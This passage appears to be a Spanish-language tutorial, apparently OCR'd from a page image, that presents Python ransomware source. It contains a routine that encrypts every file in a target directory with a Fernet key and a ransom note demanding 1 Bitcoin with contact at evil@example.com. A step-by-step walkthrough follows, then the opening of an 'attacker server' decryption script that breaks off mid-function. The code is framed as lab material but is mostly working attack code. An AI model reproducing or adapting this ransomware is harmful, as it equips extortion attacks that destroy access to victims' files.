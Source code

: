 ```Python
            print(f"Archivo cifrado: {archivo}")

# Mostrar mensaje de "rescate"
def mostrar_mensaje_rescate():
    print("\n¡Tus archivos han sido cifrados!")
    print("Para recuperarlos, envía 1 Bitcoin a la dirección XXXX y contacta al correo evil@example.com")
    print("Sin la clave de descifrado, no podrás recuperar tus archivos.\n")

# Programa principal
def ejecutar_ransomware():
    # Paso 1: Generar o cargar la clave de cifrado
    if not os.path.exists("clave_secreta.key"):
        generar_clave()
    clave = cargar_clave()

    # Paso 2: Directorio objetivo (en un entorno de pruebas)
    directorio_objetivo = "./archivos_victima"  # Cambiar según tu laboratorio

    # Paso 3: Cifrar los archivos en el directorio
    cifrar_archivos(directorio_objetivo, clave)

    # Paso 4: Mostrar el mensaje de rescate
    mostrar_mensaje_rescate()

if __name__ == "__main__":
    ejecutar_ransomware()

```

**Paso a paso**
- Generar y guardar clave secreta: La funcion generar_clave genera una clave única usando Fernet. Esta clave se guarda en un archivo llamado clave_secreta.ket, necesaria para cifrar y descifrar los archivos.
- Cargar la clave secreta: La función cargar_clave lee la clave almacenada en el archivo clave_secreta.key para usarla.
- Cifrar archivos: Recorre los archivos en el directorio especificado, y cifra su contenido usando la clave. Cifra los archivos que no son la misma clave y evita archivos importantes del sistema.
- Mostrar mensaje de rescate: Despues de cifrar los archivos, se imprime un mensaje en la pantalla de la víctima.
- Ejecución del ransomware: Ejecuta el flujo principal del ransomware. Si la clave no existe, se genera y despues cifra los datos, mostrando finalmente el mensaje de rescate a la víctima.

2. Código en el servidor atacante para descifrar los archivos
```Python
from cryptography.fernet import Fernet
import os

# Cargar la clave desde el archivo
def cargar_clave():
    return open("clave_secreta.key", "rb").read()

# Descifrar archivos en un directorio
def descifrar_archivos(directorio, clave):
    fernet = Fernet(clave)
    for archivo in os.listdir(directorio):
        ruta_archivo = os.path.join(directorio, archivo)
        
        # Descifrar solo archivos que no sean la clave
        if os.path.isfile(ruta_archivo) and not archivo.endswith(".key"):
            with open(ruta_archivo, "rb") as archivo_obj:
                contenido_cifrado = archivo_obj.read()
            
            # Descifrar el contenido del archivo
```